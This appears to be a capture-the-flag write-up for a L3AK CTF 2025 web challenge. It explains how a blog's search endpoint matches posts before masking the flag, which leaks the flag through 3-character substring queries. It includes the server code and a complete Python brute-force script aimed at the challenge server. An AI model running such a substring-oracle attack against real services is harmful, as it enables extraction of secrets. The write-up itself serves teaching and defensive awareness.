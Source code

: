 # 🛡️ CTF Challenge: L3AK_CTF - Flag_L3ak

**URL**: [http://34.134.162.213:17000](http://34.134.162.213:17000)  / [L3AK_CTF2025](https://ctf.l3ak.team/challenges)

**Category**: Web  
**Difficulty**: ★☆☆☆☆

---

## 🧠 Description

We are presented with a blog application that includes a basic search functionality. Our goal is to retrieve the real flag stored internally on the server.

> _"What's the name of this CTF? Yk what to do 😉"_

---

## 🔍 Initial Recon

Visiting the main page reveals a standard blog with a few posts. Upon inspecting the code and endpoints, we find three API routes:

---

## 📑 API Summary

### `/`
Serves the main HTML page.

---

### `/api/posts`

- Returns all blog posts.
- Any real flag string is **masked** with asterisks (`*`).
- Example:
  ```json
  {
    "content": "Well luckily the content of the flag is hidden so here it is: ********************"
  }

---

### /api/search
	
•	Accepts a POST request with a query parameter.
 
•	The query must be exactly 3 characters long.
 
•	Filters posts where the title, content, or author contains the substring.
 
•	Any instance of the real flag is masked in the output.

---

🧱 Source Code (Core Logic)
  ```python
const FLAG = 'L3AK{t3mp_flag!!}';

app.post('/api/search', (req, res) => {
   const { query } = req.body;
   if (!query || typeof query !== 'string' || query.length !== 3) {
       return res.status(400).json({ error: 'Query must be 3 characters.' });
   }

   const matchingPosts = posts
       .filter(post => post.title.includes(query) || post.content.includes(query) || post.author.includes(query))
       .map(post => ({
           ...post,
           content: post.content.replace(FLAG, '*'.repeat(FLAG.length))
       }));

   res.json({ results: matchingPosts });
});
  ```

---

🚨 Vulnerability Analysis

•	The real flag is stored in memory as plaintext.

•	Although /api/posts masks it, /api/search still performs filtering before masking.

•	Therefore, if the search query matches part of the real flag, the response will contain a result — allowing us to determine matching substrings.

---

🧨 Exploitation Plan

1.	We know the flag format: L3AK{...}
2.	Only 3-character queries are allowed.
3.	We brute-force one 3-letter substring at a time and observe if the count of results increases (i.e., search hits).
4.	We reconstruct the flag by chaining matched substrings.
---
😈 Exploit code
  ```python
import requests
import time

TARGET_URL = "http://34.134.162.213:17000/api/search"
HEADERS = {
    "Content-Type": "application/json",
    "Accept": "*/*",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
    "Accept-Language": "ko-KR,ko;q=0.9",
    "Origin": "http://34.134.162.213:17000",
    "Referer": "http://34.134.162.213:17000/",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

CHARSET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}_!@#$%^&*()+-=[]|;:,.<>?/\\"


def send_request(payload):
    try:
        data = {"query": payload}
        response = requests.post(TARGET_URL,
                                 headers=HEADERS,
                                 json=data,
                                 timeout=10)

        return response.status_code, response.json()
    except Exception as e:
        print(f"[ERROR] Request failed for '{payload}': {e}")
        return None, None


def check_flag_in_response(response_data):
    if not response_data or 'results' not in response_data:
        return False

    for post in response_data['results']:
        if ('Not the flag?' in post.get('title', '') and
                '*' in post.get('content', '')):
            return True

    return False


def find_flag():
    found_flag = "L3AK{L3ak1ng_th3"

    print(f"[INFO] Starting from known prefix: {found_flag}")
    print(f"[INFO] Charset: {CHARSET}")

    while True:
        found_next = False

        last_two = found_flag[-2:]

        print(f"\n[SEARCHING] Current flag: {found_flag}")
        print(f"[SEARCHING] Testing with last two chars: '{last_two}' + new char")

        for char in CHARSET:
            payload = last_two + char
            print(f"[TEST] {payload}", end=" ")

            status_code, response_data = send_request(payload)

            if status_code == 200 and check_flag_in_response(response_data):
                found_flag += char
                print(f"✅ FOUND!")
                print(f"🚩 [EXTEND] Current flag: {found_flag}")
                found_next = True
                break
            else:
                print("❌")

            time.sleep(0.1)

        if not found_next:
            print(f"\n🎉 [COMPLETE] No more characters found. Final flag: {found_flag}")
            break

        if found_flag.endswith('}'):
            print(f"\n🎉 [COMPLETE] Flag ends with : {found_flag}")
            break

    return found_flag


def test_payload(payload):
    print(f"[TEST] {payload}")
    status_code, response_data = send_request(payload)

    if status_code == 200:
        if check_flag_in_response(response_data):
            print(f"✅ MATCH! Found flag post")
            return True
        else:
            print(f"❌ No flag post found")
    else:
        print(f"❌ Status: {status_code}")

    return False


if __name__ == "__main__":
    print("=" * 50)
    print("🚩 CTF Flag Finder (Starting from L3AK{L3ak1ng_th3)")
    print("=" * 50)

    print("\n[CONNECTION TEST]")
    test_payload("abc")
    
    print("\n[VERIFY PREFIX]")
    test_payload("h3")
    test_payload("th3")

    print("\n[STARTING BRUTEFORCE FROM L3AK{L3ak1ng_th3]")
    result = find_flag()

    if result:
        print(f"\n🎉 FINAL FLAG: {result}")
    else:
        print("\n❌ Failed to find complete flag")
  ```
---

✅ Takeaways

•	Even if sensitive data is masked in output, search-based inference attacks can reveal it.
 
•	Always sanitize and protect search logic when handling sensitive internal values.
 
•	Limit queryability or use token-based results rather than direct string matching on secure content.

---
